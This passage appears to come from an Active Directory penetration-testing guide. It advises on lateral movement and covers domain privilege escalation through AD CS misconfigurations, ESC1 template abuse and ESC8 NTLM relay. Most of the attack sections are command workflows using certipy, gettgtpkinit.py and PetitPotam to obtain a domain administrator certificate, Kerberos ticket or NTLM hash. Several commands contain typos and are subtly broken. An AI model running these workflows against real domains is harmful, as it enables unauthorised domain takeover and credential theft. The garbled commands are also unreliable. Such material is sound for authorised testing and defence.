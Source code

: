 Of course, you need to understand whether LAPS or GMSA is used in the domain, from this you will conclude whether it is worth brute service accounts or local administrator accounts.

If at the current stage you have not been able to move forward within the lateral movement, try moving to web services and other application protocols to find vulnerabilities that will allow you to gain a foothold in the domain or get additional accounts. Also use the PowerUp.ps1 script on the affected machine.

Don't forget the techniques for getting a domain administrator using [AD CS](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6). The most common privilege escalation techniques are ESC1 and ESC8.


### Template Enrollment Rights abuse ESC1 - technique understanding:

Client Authentication: True + Extended Key Usage: Client Authentication - cert maybe to be used for authentication

Certificate Name Flag: EnrolleeSuppliesSubject - when issuing a certificate, you can specify any name, including the domain admin

Extended key Usage: Client Authentication - certificate can be used for authentication

Enrollment Rights: Domain Users - you can issue a certificate as a member of the domain users group

**ESC1 workflow:**

```
certipy find someuser:somepassword@dc.jaki.local
certi.py req 'jaki.local/someuser:somepassword@dc.jaki.local 'AD CS Name' -k -n --alt-name admin@jaki.local --template vulnetemplatename
python gettgtpkinit.py jaki.local/admin -cert-pfx admin@jaki.local.pfx -pfx-pass admin admin.ccache -dc-ip 10.10.1.1
export KRB5CCNAM=admin.ccache
```

or just, if NTLM auth enabled

```
certi.py req 'jaki.local/someuser:somepassword@dc.jaki.local 'AD CS Name' -k -n --alt-name admin@jaki.local --template vulnetemplatename
certification auth -pfx admin.pfx   
# and get NTLM admin hash
```

###  NTLM Relay to AD CS HTTP Endpoints ESC8 - technique understanding:

Web Enrollment: Enabled - the ability to issue a certificate through a web request

http:// - use http protocol for AD CS, no additional protection Basic / NTLM auth

**ESC8 workflow:**

```
certipy find someuser:somepassword@dc.jaki.local
certipy relay -ca 10.10.1.2 -debug -template vulntemplate -alt admin@jaki.local
python3 PetitPotam.py attacketip dc.jaki.local --dc-ip 10.10.1.1 --u someuser --p somepassword
# or another way to get netNTLMv1-2 without SSP
```
